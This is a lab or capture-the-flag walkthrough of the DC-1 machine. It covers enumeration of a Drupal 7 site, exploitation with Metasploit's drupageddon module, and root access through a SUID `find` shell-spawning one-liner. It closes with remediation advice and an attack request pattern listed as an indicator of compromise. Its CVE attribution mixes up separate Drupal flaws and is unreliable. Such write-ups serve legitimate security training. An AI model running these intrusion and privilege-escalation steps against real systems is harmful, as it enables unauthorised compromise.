

# Scope

## IP: 192.168.221.193

# Enumeration

## Ports

```bash
PORT      STATE SERVICE REASON
22/tcp    open  ssh     syn-ack ttl 61
80/tcp    open  http    syn-ack ttl 61
111/tcp   open  rpcbind syn-ack ttl 61
50881/tcp open  unknown syn-ack ttl 61
```

## Services

```bash
PORT      STATE SERVICE REASON         VERSION
22/tcp    open  ssh     syn-ack ttl 61 OpenSSH 6.0p1 Debian 4+deb7u7 (protocol 2.0)
| ssh-hostkey:
|   1024 c4d659e6774c227a961660678b42488f (DSA)
| ssh-dss AAAAB3NzaC1kc3MAAACBAI1NiSeZ5dkSttUT5BvkRgdQ0Ll7uF//UJCPnySOrC1vg62DWq/Dn1ktunFd09FT5Nm/ZP9BHlaW5hftzUdtYUQRKfazWfs6g5glPJQSVUqnlNwVUBA46qS65p4hXHkkl5QO0OHz
s8dovwe3e+doYiHTRZ9nnlNGbkrg7yRFQLKPAAAAFQC5qj0MICUmhO3Gj+VCqf3aHsiRdQAAAIAoVp13EkVwBtQQJnS5mY4vPR5A9kK3DqAQmj4XP1GAn16r9rSLUFffz/ONrDWflFrmoPbxzRhpgNpHx9hZpyobSyOkEU
3b/hnE/hdq3dygHLZ3adaFIdNVG4U8P9ZHuVUk0vHvsu2qYt5MJs0k1A+pXKFc9n06/DEU0rnNo+mMKwAAAIA/Y//BwzC2IlByd7g7eQiXgZC2pGE4RgO1pQCNo9IM4ZkV1MxH3/WVCdi27fjAbLQ+32cGIzjsgFhzFoJ+
vfSYZTI+avqU0N86qT+mDCGCSeyAbOoNq52WtzWId1mqDoOzu7qG52HarRmxQlvbmtifYYTZCJWJcYla2GAsqUGFHw==
|   2048 1182fe534edc5b327f446482757dd0a0 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCbDC/6BDEUIa7NP87jp5dQh/rJpDQz5JBGpFRHXa+jb5aEd/SgvWKIlMjUDoeIMjdzmsNhwCRYAoY7Qq2OrrRh2kIvQipyohWB8nImetQe52QG6+LHDKXiiEFJRHg9
AtsgE2Mt9RAg2RvSlXfGbWXgobiKw3RqpFtk/gK66C0SJE4MkKZcQNNQeC5dzYtVQqfNh9uUb1FjQpvpEkOnCmiTqFxlqzHp/T1AKZ4RKED/ShumJcQknNe/WOD1ypeDeR+BUixiIoq+fR+grQB9GC3TcpWYI0IrC5ESe3
mSyeHmR8yYTVIgbIN5RgEiOggWpeIPXgajILPkHThWdXf70fiv
|   256 3daa985c87afea84b823688db9055fd8 (ECDSA)
|_ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKUNN60T4EOFHGiGdFU1ljvBlREaVWgZvgWlkhSKutr8l75VBlGbgTaFBcTzWrPdRItKooYsejeC80l5nEnKkNU=
80/tcp    open  http    syn-ack ttl 61 Apache httpd 2.2.22 ((Debian))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-generator: Drupal 7 (http://drupal.org)
|_http-server-header: Apache/2.2.22 (Debian)
| http-robots.txt: 36 disallowed entries
| /includes/ /misc/ /modules/ /profiles/ /scripts/
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt
| /LICENSE.txt /MAINTAINERS.txt /update.php /UPGRADE.txt /xmlrpc.php
| /admin/ /comment/reply/ /filter/tips/ /node/add/ /search/
| /user/register/ /user/password/ /user/login/ /user/logout/ /?q=admin/
| /?q=comment/reply/ /?q=filter/tips/ /?q=node/add/ /?q=search/
|_/?q=user/password/ /?q=user/register/ /?q=user/login/ /?q=user/logout/
|_http-title: Welcome to Drupal Site | Drupal Site
|_http-favicon: Unknown favicon MD5: B6341DFC213100C61DB4FB8775878CEC
111/tcp   open  rpcbind syn-ack ttl 61 2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          36890/udp6  status
|   100024  1          50881/tcp   status
|   100024  1          51191/tcp6  status
|_  100024  1          58900/udp   status
50881/tcp open  status  syn-ack ttl 61 1 (RPC #100024)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### HTTP (tcp 80)

- Site is built using Drupal 7.x



- The `robots.txt` file has some disallowed entries.

```plaintext
#
# robots.txt
#
# This file is to prevent the crawling and indexing of certain parts
# of your site by web crawlers and spiders run by sites like Yahoo!
# and Google. By telling these "robots" where not to go on your site,
# you save bandwidth and server resources.
#
# This file will be ignored unless it is at the root of your host:
# Used:    http://example.com/robots.txt
# Ignored: http://example.com/site/robots.txt
#
# For more information about the robots.txt standard, see:
# http://www.robotstxt.org/wc/robots.html
#
# For syntax checking, see:
# http://www.sxw.org.uk/computing/robots/check.html

User-agent: *
Crawl-delay: 10
# Directories
Disallow: /includes/
Disallow: /misc/
Disallow: /modules/
Disallow: /profiles/
Disallow: /scripts/
Disallow: /themes/
# Files
Disallow: /CHANGELOG.txt
Disallow: /cron.php
Disallow: /INSTALL.mysql.txt
Disallow: /INSTALL.pgsql.txt
Disallow: /INSTALL.sqlite.txt
Disallow: /install.php
Disallow: /INSTALL.txt
Disallow: /LICENSE.txt
Disallow: /MAINTAINERS.txt
Disallow: /update.php
Disallow: /UPGRADE.txt
Disallow: /xmlrpc.php
# Paths (clean URLs)
Disallow: /admin/
Disallow: /comment/reply/
Disallow: /filter/tips/
Disallow: /node/add/
Disallow: /search/
Disallow: /user/register/
Disallow: /user/password/
Disallow: /user/login/
Disallow: /user/logout/
# Paths (no clean URLs)
Disallow: /?q=admin/
Disallow: /?q=comment/reply/
Disallow: /?q=filter/tips/
Disallow: /?q=node/add/
Disallow: /?q=search/
Disallow: /?q=user/password/
Disallow: /?q=user/register/
Disallow: /?q=user/login/
Disallow: /?q=user/logout/

```

- Running a scanner specific to the drupal (`droopescan`) to get more details about the CMS version

```bash
[Feb 28, 2026 - 13:53:13 (+08)] exegol-offsec recon # droopescan scan drupal -u $TARGET

[+] Plugins found:
    ctools http://192.168.221.193/sites/all/modules/ctools/
        http://192.168.221.193/sites/all/modules/ctools/LICENSE.txt
        http://192.168.221.193/sites/all/modules/ctools/API.txt
    views http://192.168.221.193/sites/all/modules/views/
        http://192.168.221.193/sites/all/modules/views/README.txt
        http://192.168.221.193/sites/all/modules/views/LICENSE.txt
    profile http://192.168.221.193/modules/profile/
    php http://192.168.221.193/modules/php/
    image http://192.168.221.193/modules/image/

[+] Themes found:
    seven http://192.168.221.193/themes/seven/
    garland http://192.168.221.193/themes/garland/

[+] Possible version(s):
    7.22
    7.23
    7.24
    7.25
    7.26

[+] Possible interesting urls found:
    Default admin - http://192.168.221.193/user/login

[+] Scan finished (0:06:12.260026 elapsed)
```

- Versions before drupal 7.5x have a RCE vulnerability in the Services Module (CVE-2018-7600)
  - This exploit is called drupalgeddon

** I used meterpreter as a last resort. Because most of the exploits I found online didn't work for some reason. Or they'd run, and then no reverse shell would be created. I dont kow why as yet, and this warrants more research.**

# Exploit

- Use metasploit to search for `drupal 7`
- Used `msf exploit(multi/http/drupal_drupageddon) > use exploit/multi/http/drupal_drupageddon` to create a meterpreter session, that had a shell.

- Upgraded shell using [shell upgrades](../../../../cheatsheets/Shell Upgrading.md):
  - Used python to spawn a bash terminal
  - Set TERM variable

- Was able to get the local flag.

```bash
www-data@DC-1:/var/www$ cd /home
cd /home
www-data@DC-1:/home$ ls
ls
flag4  local.txt
www-data@DC-1:/home$ cat local.txt
cat local.txt
*****************6ec502c5edf5263
```

# Internal Enumeration

- Kernel:

```bash
www-data@DC-1:/home$ uname -a
uname -a
Linux DC-1 3.2.0-6-486 #1 Debian 3.2.102-1 i686 GNU/Linux
```

- cronjobs

```bash
www-data@DC-1:/home$ crontab -l
crontab -l
no crontab for www-data
```

- sudo capabilities

```bash
www-data@DC-1:/home$ sudo -l
sudo -l
bash: sudo: command not found
```

- which bash?

```bash
www-data@DC-1:/home$ file /bin/bash
file /bin/bash
/bin/bash: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.26, BuildID[sha1]=0x2f0b46a7967b8b055b28
7b56c0024f131dc778c5, stripped
```

- SUID

```bash
www-data@DC-1:/home$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/bin/mount
/bin/ping
/bin/su
/bin/ping6
/bin/umount
/usr/bin/at
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/procmail
/usr/bin/find
/usr/sbin/exim4
/usr/lib/pt_chown
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/sbin/mount.nfs
```

- There are two non-default binaries with the SUID bit set. `find, exim4`.

# Privilege Escalation

- Consulting [GTFO bins](https://gtfobins.org/) shows results for find, but not for exim4.
- Find has the ability to spawn an interactive shell as root.

```bash
www-data@DC-1:/var/www$ find . -exec /bin/sh \; -quit
find . -exec /bin/sh \; -quit
# whoami
whoami
root
# cd /root
# ls
ls
proof.txt  thefinalflag.txt
# cat proof.txt
cat proof.txt
********************47d0e5df3862
```

# Remediation

## Problem

- Use of a drupal version that has known critical vulnerabilities.
  - SA-CORE-2018-002
  - CVE-2018-7600
  - CVE-2018-7602
- These CVEs all lead to RCE.

## Solution

- Immediate: Upgrade to a later and secure version of Drupal Core.

- Organizations running Drupal instances can watch for the following indicators of compromise:

  New PHP processes created by the webserver user, particularly php -r <encoded command>
  New PHP files written to the web root
  Entries in web server access logs for requests to:
  Drupal 8: user/register?element_parents=account/mail/%23value&ajax_form=1&\_wrapper_format=drupal_ajax (HTTP 200)
  Drupal 7: ?q=user/password&name[%23post_render][]=" + phpfunction + "&name[%23type]=markup&name[%23markup]=" + <encoded payload> = "form_id=user_pass&\_triggering_element_name=name (HTTP 200)
  Single requests to CHANGELOG.txt

[Rapid 7](https://www.rapid7.com/blog/post/2018/04/27/drupalgeddon-vulnerability-what-is-it-are-you-impacted/)

# Lessons Learnt

- Sometimes you have to rely on metasploit
- Keep older versions of interpreters around like pyyhon2
- Update your CMSs!
